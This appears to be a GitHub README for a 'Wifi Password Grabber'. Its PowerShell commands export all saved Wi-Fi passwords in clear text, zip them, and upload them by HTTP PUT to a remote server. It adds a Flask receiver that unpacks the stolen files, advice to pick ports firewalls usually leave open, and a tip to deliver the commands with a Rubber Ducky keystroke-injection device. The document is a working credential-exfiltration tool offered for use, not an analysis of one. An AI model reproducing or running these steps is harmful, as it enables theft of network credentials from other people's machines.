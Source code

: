# Simple Wifi Password Grabber #
#### ↓ PowerShell command to get all saved passwords in system ↓ ####
`netsh wlan export profile key=clear` 
_**note:**  this will export all wifi networks into `C:\Users\<user>`) directory in .xml format._

#### ↓ PowerShell command to zip all the XML files ↓ ####
`Compress-Archive -U .\*.xml -DestinationPath temp.zip`

#### ↓ PowerShell command to send the zipfile via Http PUT request ↓ ####
`Invoke-Restmethod -Uri http://[domain, IP or localhost]:[port]/wpg/temp.zip -Method Put -Infile .\temp.zip`
_**note:** use ports that are usually open by default in firewall, for example `80`._
### Run this python code as a server ###
This code handle the zipfile and extract `XML` files into `passwords` folder.
```py
from flask import Flask, request
from zipfile import ZipFile
from os import remove

app = Flask(__name__)

def unzip_all_files():
    with ZipFile('data.zip', 'r') as zipObj:
        zipObj.extractall(path="passwords")
    remove("data.zip")

@app.route("/wpg/<file>", methods=["PUT"])
def data_handler(file):
    with open("data.zip", 'wb') as f:
        for chunk in iter(lambda: request.stream.read(16384), bytes()):
            f.write(chunk)
    unzip_all_files()
    return "done"
    
if __name__ == "__main__":
    app.run(port=80, host="0.0.0.0")
```
#### For localhost: ####
For localhost remove `host="0.0.0.0"`

#### Tip: ###
Use a Rubber Ducky

